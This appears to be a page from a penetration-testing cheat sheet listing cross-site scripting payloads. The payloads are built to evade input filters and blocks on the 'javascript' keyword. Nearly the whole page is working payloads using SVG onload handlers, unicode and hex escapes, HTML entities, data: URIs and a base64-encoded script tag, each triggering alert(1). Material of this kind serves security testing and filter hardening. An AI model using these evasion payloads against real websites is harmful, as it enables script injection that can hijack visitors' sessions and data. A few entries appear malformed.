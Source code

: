 # **Payloads**

#### **Bypassing First Filter**

* \<svg/onload=alert(1)>
* \<svg//////onload=alert(1)>
* \<svg id=x;onload=alert(1)>
* \<svg id=\`x\`onload=alert(1)>
* \<svg%09onload=alert(1)>
* \<svg onload%09=alert(1)>
* \<svg%09onload%20=alert(1)>
* \<svg onload%09%20%28%2C%3B=alert(1)>
* \<svg onload+0B=alert(1)>
* \<script>\u0061lert(1)\</script>
* \<script>\u0061\u006c\u0065\u0072\u0074(1)\</script>
* \<img src=x onerror="\u0061lert"/>
* \<img src=x onerror="eval('\141lert(1)')"/>
* \<img src=x onerror="eval('\x61lert(1)')"/>

#### **Javascript Keyword is blocked**

* \<object data="JaVaScRiPt:alert(1)">
* \<object data="javascript\&colon;alert(1)">
*   \<object data="java &#x20;

    &#x20;   script:alert(1)">
* \<object data="javascript\&#x003A;alert(1)">
* \<object data="javascript\&#58;alert(1)">
* \<object data="\&#x6A;avascript;alert(1)">
* \<object data="\&#x6A;\&#x61;\&#x76;\&#x61;\&#x73;\&#x63;\&#x72;\&#x69;\&#x70;74;\&#x3A;alert(1)">
* \<object data="data:text/html,\<script>alert(1)\</script>">
* \<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">



